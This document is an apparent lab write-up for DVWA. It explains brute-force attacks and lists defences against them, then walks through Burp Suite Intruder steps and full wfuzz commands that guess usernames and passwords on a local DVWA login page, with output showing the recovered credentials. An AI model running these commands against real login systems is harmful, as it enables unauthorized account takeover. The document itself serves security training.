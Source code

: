 # Brute Force

### What is Bruce Force Attck?
A brute force attack is a type of cyber attack where an attacker attempts to guess a password or encryption key by trying every possible combination until the correct one is found. Brute force attacks are often used against systems with weak passwords or encryption keys, and can be very effective if the attacker has enough time and resources to try every possible combination.

There are several ways to prevent brute force attacks:

- Use strong passwords: Using complex and unique passwords can make it more difficult for attackers to guess the correct password.
- Limit login attempts: By limiting the number of login attempts allowed, you can prevent attackers from trying every possible combination.
- Use multi-factor authentication: Multi-factor authentication requires users to provide more than one form of authentication to access an account, making it more difficult for attackers to gain access.
- Implement rate-limiting: Rate-limiting restricts the number of requests that can be made to a system within a certain timeframe, which can prevent attackers from launching large-scale brute force attacks.
- Use intrusion detection systems: Intrusion detection systems can detect and block brute force attacks in real-time.
- Keep software up-to-date: Ensuring that software and systems are up-to-date can help prevent vulnerabilities that attackers can exploit for brute force attacks.

By implementing these measures, you can reduce the risk of a successful brute force attack.

## How to implements

#### Low level of complexity using Burp Suite CE:

1. Use Burp Suite Communit Edition to intercept a request.
2. Create a intruder to intercepted request.
3. Go to positions introducer section and add new payload marker to password.
4. Go to payload introducer section and load a list the passwords.
5. Go to settings introducer section and add a Grep - Match "Welcome"
6. Back to positions section and Start attack.

With these simple steps, we can check the Grep - Match column of the responses to find out whether any response returned true for the welcome message.

#### Low level of complexity, attack all users, using Wfuzz:

We can use man wfuzz to show the accepted parameters:

```sh
man wfuzz
```
And wfuzz -h to search for help:
```sh
wfuzz -h
```

For the first test we can try:

```sh
wfuzz -c -w ~/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```
Some explanations, -c parameters is to coloring the response, -b specify a cookie for the requests, repeat option for several cookies, -w parameters specify the path of the passwords list and the lasted parameter always is the full url that we can attack. 

> Note: We have change the password parameter in url to FUZZ

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 249 W | "123456" |
| 200 | 249 W | "111111" |
| 200 | 249 W | "abc123" |
| 200 | 249 W | "qwerty" |
| 200 | 253 W | "password" |
| 200 | 249 W | "12345678" |

Now we try find the different response, but this can be hard if we work with a lot passwords list. So we can use the fiter to better return visualization. Just add --hs and --sw parameters to filter responset without 'Username and/or password incorrect.' in the body resopnse.

```sh
wfuzz --sw 253  --hs 'Username and/or password incorrect.' -c -w ~/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'
```

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 253 W | "password" |

After that we can visualize the responses with more easily. It's a perfect time to remove the admin static parameter and try to add dinamic login information. To do that, we neeed to change the -w parameter to -z and add a new userNames.txt files.

```sh
wfuzz --sw 253  --hs 'Username and/or password incorrect.' -c -z file,/home/igor/Downloads/userNames.txt -z file,/home/igor/Downloads/passwords.txt -b 'security=low; PHPSESSID=7hs0bko62dkjmc4qvd7l8ll6i6' 'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'
```
> Note: We have change the user parameter in url to FUZZ
> Note: We have change the password parameter in url to FUZ2Z

We get a return like this:

| Response | Word | Payload |
| ------ | ------ |  ------ |
| 200 | 253 W | "ADMIN - password" |
| 200 | 253 W | "Admin - password" |
| 200 | 253 W | "admin - password" |
| 200 | 253 W | "gordonb - abc123" |
| 200 | 253 W | "pablo - letmein" |
| 200 | 253 W | "smithy - password"|
